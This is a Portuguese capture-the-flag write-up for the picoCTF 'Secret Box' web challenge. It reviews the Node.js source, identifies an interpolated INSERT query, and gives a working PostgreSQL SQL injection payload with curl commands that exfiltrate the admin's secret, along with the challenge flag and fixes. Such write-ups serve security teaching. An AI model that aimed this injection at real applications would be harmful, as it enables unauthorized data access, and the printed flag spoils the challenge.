

# Secret Box | picoCTF 2026

`web` `sql-injection` `postgresql` `nodejs` `knex`

| | |
|---|---|
| **Plataforma / evento** | picoCTF 2026 |
| **Categoria** | Web Exploitation |
| **Dificuldade / pontos** | Medium |
| **Autor do desafio** | Janice He |
| **Resolvido em** | 2026-05-18 |

## TL;DR

A app guarda "segredos" por usuário. Quase todas as queries usam parâmetros preparados (`?`), menos uma: a criação de segredo concatena meu texto direto no SQL. Pelo código-fonte, a flag é o segredo do usuário `admin` (UUID fixo). Crio um usuário, logo, e crio um segredo cujo conteúdo é uma injeção que copia o segredo do admin para dentro do meu. Ao listar meus segredos, vejo a flag.

> [!IMPORTANT]
> **Ideia-chave:** uma única query montada por concatenação de string, no meio de um código que usa prepared statements em todo o resto, já é suficiente para SQL injection.

## Enunciado

> This secret box is designed to conceal your secrets. It's perfectly secure—only you can see what's inside. Or can you? Try uncovering the admin's secret.

**Dica oficial:**

> How to use sql injection

**Arquivos:** código-fonte da aplicação (Node.js/Express + PostgreSQL via Knex). **Instância:** aplicação web.

## Dicas progressivas

<details><summary>Dica 1</summary>Compare como cada query trata a entrada do usuário. Uma delas é diferente das outras.</details>
<details><summary>Dica 2</summary>A rota <code>POST /secrets/create</code> concatena <code>content</code> na string SQL em vez de usar <code>?</code>.</details>
<details><summary>Dica 3</summary>A flag é o <code>content</code> do segredo cujo <code>owner_id</code> é o do admin (UUID no <code>initdb.sql</code>). Faça o INSERT escrever esse valor no seu próprio segredo com um subquery.</details>

## Ambiente

- **Máquina atacante:** Kali Linux, com `curl`.

Na minha instância o alvo estava em `candy-mountain.picoctf.net:58223`. Use o da sua.

***INSERIR no terminal: Kali (atacante)

```bash
export BASE=http://candy-mountain.picoctf.net:58223
```

## Resolução

### 1. Revisão do código-fonte

O desafio entrega o fonte, então começo por ele. Toda a camada de dados usa Knex com `db.raw(sql, [params])` e placeholders `?`, exceto um ponto.

#### `src/server.js`: rota de login (segura)

```js
const userResult = await db.raw(
    `SELECT * FROM users WHERE username = ? AND password = ? LIMIT 1`,
    [username, password]
);
```

Aqui `username` e `password` vão como parâmetros preparados: nada de injeção.

#### `src/server.js`: rota de criar segredo (vulnerável)

```js
app.post('/secrets/create', authMiddleware, async (req, res) => {
	const userId = req.userId;
	const content = req.body.content;
	const query = await db.raw(
		`INSERT INTO secrets(owner_id, content) VALUES ('${userId}', '${content}')`
	);
	return res.redirect('/');
});
```

Esta query é montada por **interpolação de string** (`${content}`), sem parâmetros. O `content` vem direto do meu POST, então eu controlo o SQL depois do `VALUES`.

> [!TIP]
> **Conceito: SQL injection por concatenação.** Quando a entrada do usuário é colada na query como texto, em vez de passada como parâmetro ligado, o usuário pode encerrar a string com `'` e injetar SQL. Prepared statements (`?`) evitam isso porque o driver envia dados e comando separadamente. Referência: [OWASP: SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection).

#### `src/db.js`: onde está a flag

```js
await db('secrets')
  .where({ owner_id: 'e2a66f7d-2ce6-4861-b4aa-be8e069601cb' })
  .update({ content: process.env.FLAG });
```

A flag real é injetada como o `content` do segredo cujo `owner_id` é `e2a66f7d-2ce6-4861-b4aa-be8e069601cb` (o `admin`, criado no `initdb.sql`). A listagem de segredos (`GET /`) só mostra os segredos do `owner_id` do meu token. Preciso, então, fazer o **meu** segredo conter o texto do segredo do admin.

### 2. Montando a injeção

A query é `INSERT INTO secrets(owner_id, content) VALUES ('<meu_id>', '<content>')`. Se o meu `content` for:

```text
' || (SELECT content FROM secrets WHERE owner_id='e2a66f7d-2ce6-4861-b4aa-be8e069601cb') || '
```

a query vira:

```sql
INSERT INTO secrets(owner_id, content)
VALUES ('<meu_id>', '' || (SELECT content FROM secrets WHERE owner_id='e2a66f7d-...') || '')
```

O `||` é a concatenação do PostgreSQL. O `content` inserido passa a ser `'' + flag_do_admin + ''` = a flag. Depois é só listar meus segredos.

### 3. Explorando

Crio um usuário, logo (guardando o cookie `auth_token`), disparo o INSERT malicioso e leio a página inicial.

***INSERIR no terminal: Kali (atacante)

```bash
export USER=victor$(date +%s) PASS=123456
```

```bash
curl -s -c cookies.txt -b cookies.txt -X POST "$BASE/signup" --data "username=$USER&password=$PASS" -o /dev/null
```

```bash
curl -s -c cookies.txt -b cookies.txt -X POST "$BASE/login" --data "username=$USER&password=$PASS" -o /dev/null
```

***INSERIR no terminal: Kali (atacante)

```bash
curl -s -c cookies.txt -b cookies.txt -X POST "$BASE/secrets/create" --data-urlencode "content=' || (SELECT content FROM secrets WHERE owner_id='e2a66f7d-2ce6-4861-b4aa-be8e069601cb') || '" -o /dev/null
```

Agora leio meus segredos e filtro a flag:

***INSERIR no terminal: Kali (atacante)

```bash
curl -s -b cookies.txt "$BASE/" | grep -oE 'picoCTF\{[^}]+\}'
```

```text
picoCTF{sq1_1nject10n_831311dc}
```

## Cadeia de ataque



## Por que funciona

A suposição de segurança quebrada é o isolamento entre usuários: cada um só deveria ver os próprios segredos. Mas a rota de criação monta a query por concatenação, então o `content` controlado pelo atacante vira código SQL. Com um subquery eu leio a tabela `secrets` inteira, incluindo a linha do admin, e gravo o resultado no meu próprio registro, que a aplicação então me mostra sem reclamar. O resto do código usar `?` não ajuda: basta **um** ponto vulnerável. Classe: CWE-89 (*SQL Injection*).

## Remediação

- Usar parâmetros preparados **em todas** as queries, inclusive esta: `db.raw('INSERT INTO secrets(owner_id, content) VALUES (?, ?)', [userId, content])`.
- Preferir o query builder do Knex (`db('secrets').insert({...})`), que parametriza por padrão.
- Aplicar privilégio mínimo no banco e não deixar que a leitura de um registro dependa só de o atacante não conhecer o identificador.

## Lições e padrões

- **Sinais para reconhecer:** quando o fonte está disponível, procurar por template strings (`` `...${x}...` ``) dentro de `db.raw`/`query` é o caminho mais rápido para achar SQLi.
- **Da próxima vez eu tentaria primeiro:** fazer `grep -rn 'raw(' src/` e comparar quais queries usam `?` e quais concatenam.

## Referências

- [OWASP: SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [PostgreSQL: operador de concatenação `||`](https://www.postgresql.org/docs/current/functions-string.html)
- [CWE-89](https://cwe.mitre.org/data/definitions/89.html)

## Flag

```text
picoCTF{sq1_1nject10n_831311dc}
```
